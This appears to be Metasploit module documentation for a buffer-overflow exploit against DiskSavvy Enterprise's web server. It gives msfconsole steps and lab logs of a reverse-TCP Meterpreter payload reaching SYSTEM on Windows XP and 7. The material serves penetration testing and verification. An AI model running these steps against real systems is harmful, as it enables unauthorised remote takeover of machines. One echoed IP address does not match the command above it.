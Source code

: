 ## Vulnerable Application

[DiskSavvy Enterprise](http://www.disksavvy.com) versions up to v9.3.14 are affected by a stack-based buffer overflow vulnerability which can be leveraged by an attacker to execute arbitrary code in the context of NT AUTHORITY\SYSTEM on the target. The vulnerability is caused by improper bounds checking of the request path in HTTP GET requests sent to the built-in web server. This module has been tested successfully on Windows XP SP3 and Windows 7 SP1. The vulnerable application is available for download at [Exploit-DB](https://www.exploit-db.com/apps/20058a6ebf1120bca9ac92b493cac1ff-disksavvyent_setup_v9.1.14.exe).

## Verification Steps
  1. Install a vulnerable DiskSavvy Enterprise
  2. Start `Disk Savvy Enterprise` service
  3. Start `Disk Savvy Enterprise` client application
  4. Navigate to `Tools` > `Advanced Options` > `Server`
  5. Check `Enable Web Server On Port 80` to start the web interface
  6. Start `msfconsole`
  7. Do `use exploit/windows/http/disksavvy_get_bof`
  8. Do `set rhost ip`
  9. Do `check`
  10. Verify the target is vulnerable
  11. Do `set payload windows/meterpreter/reverse_tcp`
  12. Do `set lhost ip`
  13. Do `exploit`
  14. Verify the Meterpreter session is opened

## Scenarios

###DiskSavvy Enterprise v9.1.14 on Windows XP SP3

```
msf exploit(disksavvy_get_bof) > options

Module options (exploit/windows/http/disksavvy_get_bof):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST    192.168.198.130  yes       The target address
   RPORT    80               yes       The target port
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.198.138  yes       The listen address
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


msf exploit(disksavvy_get_bof) > exploit

[*] Started reverse TCP handler on 192.168.198.138:4444 
[*] Automatically detecting the target...
[*] Selected Target: DiskSavvy Enterprise v9.1.14
[*] Sending stage (957999 bytes) to 192.168.198.130
[*] Meterpreter session 1 opened (192.168.198.138:4444 -> 192.168.198.130:1140) at 2017-01-19 13:38:18 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : GABOR-03722ADE8
OS              : Windows XP (Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/win32
meterpreter >
```

###DiskSavvy Enterprise v9.3.14 on Windows 7 SP1

```
msf exploit(disksavvy_get_bof) > set rhost 192.168.198.133
rhost => 192.168.198.130
msf exploit(disksavvy_get_bof) > exploit

[*] Started reverse TCP handler on 192.168.198.138:4444 
[*] Automatically detecting the target...
[*] Selected Target: DiskSavvy Enterprise v9.3.14
[*] Sending stage (957999 bytes) to 192.168.198.133
[*] Meterpreter session 2 opened (192.168.198.138:4444 -> 192.168.198.133:49187) at 2017-01-08 05:16:13 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-BCJL9PJ5BF5
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/win32
meterpreter >
```
